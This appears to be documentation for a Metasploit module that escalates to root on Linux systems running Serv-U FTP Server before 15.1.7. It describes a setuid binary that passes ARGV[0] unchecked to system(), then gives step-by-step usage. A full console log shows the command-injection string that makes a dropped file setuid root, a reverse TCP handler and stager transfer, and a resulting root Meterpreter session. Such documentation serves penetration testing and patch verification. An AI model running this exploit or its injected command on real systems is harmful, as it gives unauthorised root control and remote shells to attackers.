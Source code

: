 ## Description

  This module attempts to gain root privileges on systems running
  Serv-U FTP Server versions prior to 15.1.7.

  The `Serv-U` executable is setuid `root`, and uses `ARGV[0]`
  in a call to `system()`, without validation, when invoked with
  the `-prepareinstallation` flag, resulting in command execution
  with root privileges.


## Vulnerable Application

  [Serv-U FTP Server](https://www.serv-u.com/ftp-server-software)
  is an FTP server for Linux and Windows; however, this module
  targets only Linux systems.

  This module has been tested successfully on:

  * Serv-U FTP Server version 15.1.6 (x64) on Debian 9.6 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SERVU_PATH**

  Path to `Serv-U` executable (default: `/usr/local/Serv-U/Serv-U`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Debian 9.6 (x64)

  ```
  msf5 exploit(multi/handler) > back
  msf5 > use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc 
  msf5 exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] bash shell is available
  [+] /usr/local/Serv-U/Serv-U is executable
  [+] /usr/local/Serv-U/Serv-U is setuid
  [*] Writing '/tmp/.24HnCiwSby' (277 bytes) ...
  [*] Executing command: bash -c 'exec -a "\";chown root /tmp/.24HnCiwSby;chmod u+s /tmp/.24HnCiwSby;chmod +x /tmp/.24HnCiwSby\"" /usr/local/Serv-U/Serv-U -prepareinstallation'
  [+] /tmp/.24HnCiwSby setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.250

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.250:58662) at 2019-06-28 23:46:48 -0400
  [-] Failed to delete /tmp/.24HnCiwSby: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > 
  ```

